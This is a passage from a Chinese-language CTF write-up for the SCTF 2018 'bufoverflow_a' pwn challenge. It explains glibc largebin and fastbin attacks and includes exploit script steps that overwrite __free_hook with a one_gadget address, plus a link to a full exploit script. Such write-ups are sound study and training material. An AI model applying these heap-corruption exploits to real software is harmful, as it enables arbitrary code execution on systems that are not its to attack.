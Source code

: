 	||        presize = 0x0       ||             size = 0x501             ||
	|| 		    fd = 0x0          ||        bk = glboal_max_fast - 0x10   ||
	||      fd_nextsize= 0x0      ||          bk_nextsize = heap_addr     ||

由于在largebin chunk存在两个链表，因此还可以利用fd，bk指针构成的链表达到给global\_max\_fast赋值的目的。其中fd，bk组成的链表加入chunk的语句如下所示。

	bck = fwd->bk;	//关键语句
	victim->bk = bck;
	victim->fd = fwd;
	fwd->bk = victim;
	bck->fd = victim;	//关键语句
### 2.4 fastbin attack ###
fastbin attack的攻击过程如下所示：  
1.申请大小为0x110的chunk0，覆写chunk1的size字段。  
2.释放chunk1，释放chunk0。  
3.此时chunk1已在fastbin链表中，再次申请chunk0，修改chunk1的fd字段为heap\_addr+8（很精妙的借助heap\_cur->ptr指针达到修改free\_hook的目的）。  
4.再次申请chunk1，此时chunk1所在的fastbin链表中的fd指针就指向了heap\_addr+8。  
5.释放chunk0，然后再申请chunk0，是的heap\_cur->size的值为0x100，为了接下来绕过fastbin检查。  
6.再次申请大小为0x100的chunk，即可随意改写heap\_cur->ptr指针。


	Alloc(0x100)
	Fill(p64(0)+p64(0x101))
	Delete(1)
	Delete(0)
	Alloc(0x100)
	Fill(p64(0)+p64(0x101)+p64(heap_addr+8))
	Alloc(0xf0)
	Delete(0)
	Alloc(0x100)
	Alloc(0xf0)

	free_hook = libc.symbols['__free_hook']
	Fill(p64(free_hook))

	magic = 0x4526a
	magic = 0x3f52a
	Fill(p64(libc.address+magic))
	Delete(0)

## 3.exploit代码 ##
Largebin Attack 利用脚本：  
[https://github.com/fade-vivida/CTF/blob/master/sctf2018/pwn/bufoverflow_a/cd4fc378-7ede-4d78-b4ac-95613fbd0120/largebin_attack.py](https://github.com/fade-vivida/CTF/blob/master/sctf2018/pwn/bufoverflow_a/cd4fc378-7ede-4d78-b4ac-95613fbd0120/largebin_attack.py)
## 4.unsortedbin attack ##
利用 unsortedbin attack 进行 house of orange 攻击，其利用思路与其他题目类似，这道题目的重点是如何控制 unsortedbin 出现的时机，因为这道题目比较特殊，当申请多于两个的 chunk 后，再次 malloc chunk 或者 free chunk ，会对chunk内容进行清0xcc，这样如果我们造成overlap chunk后，想要释放它，则会对该chunk所包含的子chunk形成破坏。
